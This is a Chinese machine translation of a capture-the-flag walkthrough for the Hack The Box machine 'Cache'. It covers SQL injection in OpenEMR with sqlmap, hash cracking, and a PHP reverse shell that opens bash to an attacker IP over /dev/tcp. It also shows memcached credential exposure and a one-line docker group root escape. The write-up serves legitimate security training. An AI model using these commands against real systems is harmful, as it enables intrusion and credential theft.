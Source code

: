 # HTB“缓存”[书面评论]

> 原文：<https://infosecwriteups.com/htb-cache-writeup-c3966ac8867c?source=collection_archive---------3----------------------->

## SQL 注入| unauth Memcached 暴露凭证| Docker Linux 映像漏洞

![](img/2f749d1b3764e3a03911e1f37f8d2bcf.png)

## 摘要

缓存需要枚举和直觉的结合，而不是使用广泛的扫描工具。e.x .将 ip 地址映射到 hms.htb 而不是 cache.htb 该计算机中利用的漏洞是 OWASP Top 10 中列出的最常见的漏洞，即 SQL 注入。利用基于 web 的应用程序(openEMR)登录门户中的此漏洞会暴露该应用程序的用户凭据。利用这个，进入了账户。PHP 反向 shell 被旋转，以用户 ash 登录后检索到 user.txt。

完成 root 只需要一行命令。这很容易，尤其是当你已经知道这个漏洞，或者你知道在哪里搜索。

**平台:** Linux Ubuntu

**工具:**`nmap`**|**|`sqlmap`|`docker`|`telnet`

**漏洞利用:** [OpenEMR < 5.0.1 认证 RCE](https://www.exploit-db.com/exploits/45161) | [Docker Linux 镜像漏洞利用](https://gtfobins.github.io/gtfobins/docker/)

## 列举

Nmap TCP 扫描输出

![](img/360035d28b367306ed1b0b1e239fabbc.png)

## 据点

************端口 80 Apache httpd * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

从在端口 80 上浏览 http://10.10.10.188 开始，我在**author.html**页面上看到了我的第一个潜在用户名(ash)、域名(cache.htb)和漏洞(HMS)。

![](img/99cb8428d328658e534673be6aa47365.png)

在 **/etc/hosts** 文件中设置本地域，指向其 IP 地址。

![](img/c2819591996ee45020e53d8b3e51f56a.png)

**cache.htb**

挖掘这个网站后发现了一个密码。

![](img/0054054543c5ccf25a800227458d06e4.png)![](img/16cb5bf1ba749d62de0d8d51776c9364.png)![](img/5000c532665d309d07a542a32329cd29.png)

在[http://cache.htb/login.html](http://cache.htb/login.html)上使用用户名(ash)和找到的密码登录门户后，我们看到页面正在建设中。

![](img/7ce47fc94d723fc55b348093d51c51ca.png)![](img/0a571c4ce25a9d54223bbdb5e4633822.png)

这里没发现什么。现在回到开始，注意在“author.html”上写着:*“检查他的其他项目，如 cache: HMS”。*

我将 **hms.htb** 添加到 **/etc/hosts** 文件中，瞧！它显示了一个新的登录页面。

![](img/fedebb0ded2c38ef1bebb94bf59359ff.png)

**hms.htb**

我们可以看到数据库名称是:**openemr**T36【5 . 0 . 1(3)。

![](img/74c3d2f207b6d296480d6f3b805c8044.png)

使用这个[网站](https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69)，我发现了这个网络应用程序的 MYSQL 漏洞，以及数据是如何通过这个漏洞泄露的:[*http://hms.htb/portal/add_edit_event_user.php?eid=*](http://hms.htb/portal/add_edit_event_user.php?eid=1)*1*

在寻找这个页面上的错误后，我在 burp 上截取了这个并保存了文件。

![](img/1a8bf7ca675f160d23e8c4e3a9c9c3ae.png)

该站点将表名称为 **users_secure。**

*或者，这也可以通过运行:*找到

`sqlmap -r portal.burp -D openemr --batch -D openemr --tables`

使用这些信息，我们可以通过运行 **sqlmap** 来检索数据库表中的内容。

![](img/b1a5c84a51ea25dab52459d9f3c93bf8.png)![](img/8006d6b1577ecb1f424444d9de79a97f.png)

保存此请求后，使用 sqlmap 运行以下命令。接下来，使用 `john.`破解找到的密码散列

![](img/c656a55c7c44656ffb0105e50ac23290.png)

## 反向外壳

使用找到的凭据成功访问。

![](img/8a17954aba3e85ae4278ca2215d247cf.png)

以这篇[文章](https://labs.bishopfox.com/advisories/openemr-5-0-16-remote-code-execution-cross-site-scripting)为指导，我利用了 openemr RCE 漏洞。

启动一个监听端口，并在其定制的 php 站点上执行以下命令。

`<?php
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.14.27/8898 0>&1’”);
?>`

![](img/5a4b3d61483628ba7bc8cbb4d3855d24.png)

现在，打开 **custom_pdf.php** 让 shell 在攻击者的机器上执行。

![](img/9e0483f3ba0686cf3803e35ff4375b2a.png)![](img/f3d9fc2c772567e5c7f354cfaef91787.png)

# 横向运动

在 **/home** 目录下，通知**灰**。输入我们之前找到的密码，我们就可以进去了！

![](img/a4e5e0b5abc63b1b8e5946ab6fd51d55.png)

成功了！！！

当使用`netstat` 命令调查 TCP 网络连接时，注意机器的端口 11211 监听本地主机 IP 地址，并且正在运行 [memcached](https://niiconsulting.com/checkmate/2013/05/memcache-exploit/) 服务。

![](img/1df2ccdb6d12b7ba4b529629882bcd04.png)

在这篇文章之后——[memcache-exploit](https://niiconsulting.com/checkmate/2013/05/memcache-exploit/)，我运行了`Telnet`来连接和暴露敏感信息。

![](img/94b647836d1487a8ef3c5fc7f2264dee.png)

# 权限提升

后登录为路飞，发现路飞是 docker 组成员。

![](img/e2e6734bf591b791bc722ba7357ac7b9.png)

使用 [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) 站点，我们可以使用下面的命令来获取根 shell。

`docker run -v /:/mnt — rm -it alpine chroot /mnt sh`

注意: *alpine* 需要用 *ubuntu* 替换，因为受害机运行在 **Ubuntu** 机上。

![](img/98f558e6c424845949ec65d2ae0ad5aa.png)![](img/c9106903a796e77fbc39cc5585b70d1e.png)

**成功！！！**

![](img/4112f93fcde1dc6b95018368a9905e49.png)

# 参考

*   [https://medium . com/@ musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd 8644 a69](https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69)
*   [https://labs . bishop fox . com/advisories/openemr-5-0-16-远程代码执行-跨站点脚本](https://labs.bishopfox.com/advisories/openemr-5-0-16-remote-code-execution-cross-site-scripting)
*   [https://NII consulting . com/checkmate/2013/05/memcache-exploit/](https://niiconsulting.com/checkmate/2013/05/memcache-exploit/)
*   [https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)
